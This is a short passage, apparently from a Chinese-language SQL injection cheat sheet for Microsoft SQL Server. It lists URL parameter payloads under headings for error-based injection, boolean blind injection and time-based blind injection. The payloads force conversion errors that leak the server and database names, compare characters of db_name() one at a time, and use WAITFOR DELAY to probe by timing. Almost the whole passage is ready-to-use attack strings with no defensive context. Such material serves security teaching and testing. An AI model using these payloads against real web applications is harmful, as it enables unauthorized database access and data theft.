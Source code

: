 
### 3.2 报错注入

```
?id=1' and 1=(select 1/@@servername)--
?id=1' and 1=(select 1/(select top 1 name from sys.databases where name not in (select top 1 name from sys.databases))--


```

### 3.3 盲注

#### 3.3.1 布尔盲注

```
?id=1' and ascii(substring((select db\_ name(1)),1,1))> 64--


```

#### 3.3.2 时间盲注

```
?id= 1';if(2>1) waitfor delay '0:0:5'--
?id= 1';if(ASCII(SUBSTRING((select db\_name(1)),1,1))> 64) waitfor delay '0:0:2'--


```